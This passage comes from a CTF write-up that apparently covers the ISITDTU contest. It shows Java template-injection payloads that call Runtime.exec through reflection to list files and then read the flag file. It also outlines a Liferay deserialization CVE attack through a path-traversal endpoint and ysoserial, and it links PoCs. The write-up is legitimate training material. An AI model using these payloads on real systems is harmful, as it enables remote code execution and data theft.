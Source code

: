 ```java!
user.setName("new String($date.getClass().forName(\"java.lang.Runtime\").getRuntime().exec(\"ls\").getInputStream().readAllBytes())");
```

![image](https://hackmd.io/_uploads/B1YJIjseJl.png)


Convert array to readable ASCII characters:


![image](https://hackmd.io/_uploads/rkA8IojxJx.png)


So the name of the flag file is `m62dyeu1gr3t`. Now read flag with payload

```java!
user.setName("$date.getClass().forName('java.nio.file.Files').readAllLines($date.getClass().forName('java.nio.file.Paths').get('m62dyeu1gr3t'))");
```


![image](https://hackmd.io/_uploads/HJCsLise1e.png)


```
ISITDTU{We1come_t0_1s1tDTU_CTF}
```

### niceray

![image](https://hackmd.io/_uploads/BJ7mCqig1l.png)


This is a Liferay challenge, quick look at the source code reveals the version of this application:

![image](https://hackmd.io/_uploads/By0mQp1Zkl.png)


This Liferay version has a deserialization CVE:


![image](https://hackmd.io/_uploads/rJrcQ6kbkl.png)


PoC: [https://gist.github.com/testanull/4bb77519acf2c8e919f8d9b015eda880](https://gist.github.com/testanull/4bb77519acf2c8e919f8d9b015eda880)

However, author might have considered this CVE an unintended solution, therefore, this can not be exploited remotely:

![image](https://hackmd.io/_uploads/HyxJEaJ-yg.png)


However, if I don't exploit JSONWS, I can still refer to another blog (which have PoC): [https://sec.vnpt.vn/2019/02/liferay-bypass-story-part-2/](https://sec.vnpt.vn/2019/02/liferay-bypass-story-part-2/)

Using the endpoint `#/../api/liferay`, I can still exploit by sending payload as raw payload (bytes) from ysoserial:

